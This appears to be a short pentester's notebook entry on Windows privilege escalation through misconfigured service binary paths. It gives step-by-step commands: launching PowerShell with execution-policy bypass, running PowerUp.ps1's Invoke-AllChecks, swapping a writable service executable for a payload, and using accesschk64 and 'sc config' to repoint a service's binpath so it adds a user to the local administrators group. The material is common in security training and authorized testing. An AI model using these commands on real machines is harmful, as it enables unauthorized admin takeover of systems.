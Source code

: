 ```yaml
---
title: Binary Service Paths
updated: 2023-10-10 11:44:08Z
created: 2023-10-10 11:31:57Z
latitude: -33.86881970
longitude: 151.20929550
altitude: 0.0000
---
```


## Using PowerUp.ps1
 1. Open PowerShell
`cmd> powershell -ep bypass`
2. Import PowerUp module
`. ./PowerUp.ps1`
3. Run `Invoke-AllChecks`
4.  Checking service permissions...and find the **ServiceName** and the File location
5. Replace file with writable permissions (eg **vul_file.exe**) with compiled **file.exe**
6. `sc start <ServiceName>`

## Using accesschk64.exe
1. From command prompt on target, run:
`accesschk64.exe -wuvc Everyone *`
Look for **SERVICE_CHANGE_CONFIG**

![17008f1d1d29be11c4dbe9ae7d97195a.png](../../_resources/17008f1d1d29be11c4dbe9ae7d97195a.png)

2. Find Binary Path:
`sc qc <ServiceName>`

3. Change configuration to point to **file.exe**
`sc config <ServiceName> binpath= "net localgroup administrators <user> /add"`

4. Start service:
`sc start <Servicename>`
	